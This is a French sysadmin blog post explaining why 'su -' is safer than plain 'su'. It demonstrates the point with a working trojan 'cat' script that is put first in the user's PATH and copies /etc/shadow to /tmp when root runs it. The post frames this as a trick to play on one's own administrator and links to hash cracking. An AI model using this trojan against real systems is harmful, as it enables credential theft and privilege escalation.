 ```yaml
---
title: "Pourquoi utiliser 'su -' plutôt que 'su'"
author: Benoit
date: 2020-10-30 19:32:33 +0100
categories: [sysadmin, linux]
tags: [securite]
math: true
image: /images/security.jpg
---
```

`su -` invoque un shell de connexion après avoir changé d'utilisateur. Un shell de connexion réinitialise la plupart des variables d'environnement, fournissant une base propre.

`su` ne fait que changer d'utilisateur, fournissant un shell normal avec un environnement presque identique à celui de l'ancien utilisateur.

Imaginez que vous êtes un développeur de logiciels avec un accès normal à une machine et que votre administrateur ignorant ne vous donne pas l'accès au compte root. Essayons (avec un peu de chance) de le piéger:

Vous connnaisser évidement la commande `cat`qui permet d'afficher le contenu d'un fichier ? Nous allons la piéger en en créant une fausse:

Nous allons la stocker dans le dossier `tmp`

{% highlight bash %}
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
{% endhighlight %}

Nous créons donc un script que nous allons évidement appeler `cat`
Dans ce script, si l'utilisateur n'est pas root, le script simulera un message de permission refusée.
Si l'utilisateur est root, le script va copier le contenu du fichier `/etc/shadow` dans le dossier `tmp` 
Il va ensuite executer la commande `cat` normalement.

{% highlight bash %}
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; } 
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
{% endhighlight %}

Nous allons maintenent rendre le script executable et l'ajouter dans notre `PATH` afin de pouvoir l'executer depuis n'importe quel dossier:

{% highlight bash %}
chmod +x /tmp/evil_bin/cat`
PATH="/tmp/evil_bin:$PATH"
{% endhighlight %}

Maintenant, allez voir votre administrateur pour lui demander pourquoi vous n'arrivez pas à afficher un fichier avec la commande `cat`.

Il va donc essayer en restant sur votre session mais ce ne sera pas le vrai programme `cat`qui sera lancé mais notre petit script:

{% highlight bash %}
$ ls -l /home/vous/mon-super-fichier
-rw-r--r-- 1 you wheel 41 2020-06-28 13:00 mon-super-fichier
$ cat /home/vous/mon-super-fichier
/bin/cat: Permission denied!
{% endhighlight %}

Il va donc vouloir essayer avec les droits root en utilisant `su`. Et c'est à ce moment qu'il va faire une erreur. En effet, comme il utilise `su` au lieu de `su -`, les variables d'environnement ne sont pas écrasées. Il va donc une nouvelle fois executer notre script au lieu d'executer la vrai commande `cat`.

{% highlight bash %}
$ su
Password: ...
$ cat /home/vous/mon-super-fichier
du contenu super important dans ce fichier.
$ exit
{% endhighlight %}

Il aura donc l'impression que tout a fonctionné et fermé la session root. Donc, vous pouvez maintenant dire "Merci monsieur l'admin" ^^ En effet, notre piège a fonctionné: 

Nous avons bien récupéré une copie du fichier `/etc/shadow`qui contient une liste de tous les comptes et les mots de passe chiffrés:

{% highlight bash %}
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2020-06-28 13:02 /tmp/shadow_copy
{% endhighlight %}

Il ne vous reste plus qu'a tenter de les déchiffrer... et pour ça, je vous laisse lire cet article de l'excellent [korben][korben]

Sources: [StackOverflow][StackOverflow]


[Korben]: https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html
[StackOverflow]: https://stackoverflow.com